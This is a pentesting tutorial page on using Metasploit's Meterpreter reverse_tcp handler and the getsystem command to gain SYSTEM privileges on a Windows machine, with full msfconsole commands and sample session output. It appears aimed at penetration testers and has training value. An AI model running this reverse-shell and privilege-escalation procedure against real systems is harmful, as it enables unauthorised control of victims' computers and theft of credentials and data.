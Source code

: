 ```yaml
---
title: GETSYSTEM for Privilege Escalation
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 2
---
```


# GETSYSTEM for Privilege Escalation

## Introduction

Acquiring SYSTEM privileges on a Windows system is a crucial task for penetration testers and red teamers, enabling them to carry out advanced post-exploitation actions such as credential extraction and accessing confidential data. The GETSYSTEM command within Meterpreter proves to be a potent tool, empowering attackers to elevate privileges and execute commands at the SYSTEM level.

## Step-by-Step Guide

### 1. Create the meterpreter binary
    
How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.md)

### 2. Open Metasploit Console

```bash
msfconsole
```

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit
```

### 3. Execute your meterpreter binary on the victim computer


### 4. Confirm connection

Sample (run *'ps'*): 
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100

meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User                Path
 ---   ----  ----         ----  -------  ----                ----
 0     0     [System Pro
             cess]
 4     0     System
 224   4     smss.exe
 296   288   csrss.exe
 308   432   svchost.exe
 344   288   wininit.exe
 356   336   csrss.exe
 396   336   winlogon.exe
 432   344   services.exe
 440   344   lsass.exe
 ...
```

### 5. Use 'getsystem' command to escalate to SYSTEM-leve access
```bash
meterpreter > getuid
Server username: WIN-AJ4C67166DE\win7
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Video Demonstration

[<img src="https://img.youtube.com/vi/TJF_LnRMdCk/hqdefault.jpg"
/>](https://www.youtube.com/embed/TJF_LnRMdCk)

## Reference
https://www.offsec.com/metasploit-unleashed/keylogging/#using-a-keylogger-with-metasploit